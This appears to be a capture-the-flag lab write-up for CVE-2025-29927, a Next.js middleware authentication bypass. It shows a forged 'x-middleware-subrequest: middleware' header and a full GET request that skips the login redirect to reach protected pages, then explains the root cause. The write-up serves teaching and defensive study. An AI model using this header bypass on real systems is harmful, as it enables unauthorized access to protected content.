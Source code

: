 # 🔓 CVE-2025-29927 - Next.js Middleware Authentication Bypass Lab

## 📌 Summary

This lab demonstrates **CVE-2025-29927**, a vulnerability in Next.js middleware that allows bypassing authentication by adding a forged `x-middleware-subrequest` header.

- **CVE**: CVE-2025-29927  
- **Framework**: Next.js 12.2+  
- **Impact**: Unauthorized access to protected content  
- **Exploit Type**: Access control / middleware bypass

---

## 🌐 Target

https://xxxxx.ctfio.com

### 1. ❌ Requesting `/` normally → Redirected to `/login`

![Step 1 - 307 redirect](./login.png)

The server responds with:

```http
HTTP/1.1 307 Temporary Redirect
Location: /login?redirectTo=/

You are redirected to the login page and can't access content.
```

### 2. ✅ Bypass with `x-middleware-subrequest` header

Send the same request **with** the following header:

```http
x-middleware-subrequest: middleware
```

![Step 2 - 200 ok](./ok.png)

#### You now see the homepage directly without being authenticated. The page includes:

1. Home

2. Events

3. Login


#### Send a similar request to /events:

```http
GET /events HTTP/1.1
Host: tantalus.ctfio.com
x-middleware-subrequest: middleware
```
![Step 2 - 200 ok](./flag.png)


## Root cause

CVE-2025-29927 is a vulnerability found in applications built with Next.js (version 12.2 and possibly others) that improperly trust the x-middleware-subrequest header. When a client adds this header manually, it can bypass middleware protections, such as authentication checks, allowing unauthorized users to access sensitive pages.

What Is x-middleware-subrequest?
This is an internal header used by Next.js’s middleware framework to indicate that a request is being handled inside middleware logic.

```http
x-middleware-subrequest: middleware
```

In affected applications:

1. Middleware logic performs an authentication check.

2. The app uses x-middleware-subrequest to skip this logic for internal subrequests.

3. The server fails to validate whether this header is genuine, trusting it blindly.

Attackers can forge the header, causing the app to:

1. Skip auth checks

2. Serve pages that should only be visible to authenticated users